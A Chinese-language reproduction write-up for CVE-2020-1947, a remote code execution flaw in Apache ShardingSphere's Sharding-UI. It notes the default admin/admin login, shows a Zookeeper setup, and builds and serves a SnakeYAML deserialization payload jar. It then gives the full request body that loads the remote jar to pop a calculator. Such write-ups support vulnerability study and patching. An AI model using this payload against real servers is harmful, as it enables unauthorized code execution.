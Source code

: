 （CVE-2020-1947）Apache ShardingSphere远程代码执行漏洞
======================================================

一、漏洞简介
------------

二、漏洞影响
------------

Apache ShardingSphere \< 4.0.1

三、复现过程
------------

Sharding-UI的默认密码为admin/admin

![](./resource/(CVE-2020-1947)ApacheShardingSphere远程代码执行漏洞/media/rId24.png)

顺带一提，在`conf/application.properties`中存储了WEB端的端口和账号密码。

![](./resource/(CVE-2020-1947)ApacheShardingSphere远程代码执行漏洞/media/rId25.png)

### 安装Zookeeper

要想成功利用，需要先在Sharding-UI中添加一个注册中心，否则在后续利用中会提示`No activated registry center!`，所以需要搭建一个Zookeeper。
这里直接使用docker搭建Zookeeper，并且将2181端口映射出来到本地的2181端口。

    docker pull zookeeper
    docker run --privileged=true -d --name zookeeper --publish 2181:2181  -d zookeeper:latest

### 配置registry-center

在Sharding-UI的registry-center模块配置Zookeeper的地址。

![](./resource/(CVE-2020-1947)ApacheShardingSphere远程代码执行漏洞/media/rId28.png)

成功连接即可。

![](./resource/(CVE-2020-1947)ApacheShardingSphere远程代码执行漏洞/media/rId29.png)

### 生成payload

使用SnakeYAML反序列化小工具： https://github.com/ianxtianxt/yaml-payload
修改`src/artsploit/AwesomeScriptEngineFactory.java`文件，设置为弹出计算器。

![](./resource/(CVE-2020-1947)ApacheShardingSphere远程代码执行漏洞/media/rId31.png)

编译生成jar包：

    javac src/artsploit/AwesomeScriptEngineFactory.java
    jar -cvf yaml-payload.jar -C src/ .

然后使用python本地搭建HTTPServer，等待连接。

    python -m SimpleHTTPServer 90

### 代码执行

在web端的Rule Config------\>Add Schema处加入YAML代码并提交。

![](./resource/(CVE-2020-1947)ApacheShardingSphere远程代码执行漏洞/media/rId33.png)

数据包正文：

    {"name":"test","ruleConfiguration":"encryptors:\n    <encryptor-name>:\n      type: MD5\n      props:","dataSourceConfiguration":"!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL [\"http://localhost:90/yaml-payload.jar\"]]]]"}

发送即可成功弹出计算器。

![](./resource/(CVE-2020-1947)ApacheShardingSphere远程代码执行漏洞/media/rId34.png)
